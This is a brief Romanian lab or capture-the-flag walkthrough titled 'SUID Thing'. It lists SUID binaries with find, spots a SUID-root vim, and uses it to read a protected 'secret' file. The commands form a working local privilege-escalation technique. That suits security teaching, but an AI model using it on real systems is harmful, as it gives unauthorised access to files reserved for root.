 # SUID Thing

Pentru a găsi toate binarele ce au setat bitul de `SUID`, folosiți:

``` shell
find / -perm -u=s -type f 2>/dev/null
```

Rezultatul ar trebui să fie:

``` shell
$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/vim.basic
/usr/bin/sudo
/bin/su
/bin/mount
/bin/umount
```

Observați utilitarul `/usr/bin/vim.basic`:

``` shell
$ ls -l /usr/bin/vim.basic
-rwsr-xr-x 1 root root 3169376 Oct  1  2021 /usr/bin/vim.basic
```

Acum, conținutul fișierului `secret` devine accesibil prin comanda:

``` shell
vim secret
```
